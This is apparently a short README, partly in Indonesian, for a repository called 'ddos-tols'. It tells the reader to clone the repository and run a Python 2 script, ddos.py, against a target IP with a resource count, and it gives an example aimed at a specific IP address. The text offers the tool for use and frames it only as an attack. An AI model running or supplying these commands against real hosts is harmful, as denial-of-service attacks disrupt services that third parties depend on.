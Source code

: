 # DDOS TOLS ERROR CODE

## 1. Download Script
- <code>git clone https://www.github.com/firdaus-rx/ddos-tols</code>
- <code>cd ddos-tols</code>

## 2. Jalankan Tols 
- <code>python2 ddos.py -t [IP_TARGET] -r [--resource]</code>

## 3. Example 
- <code>python2 ddos.py -t 141.124.13.12 -r 1000</code>
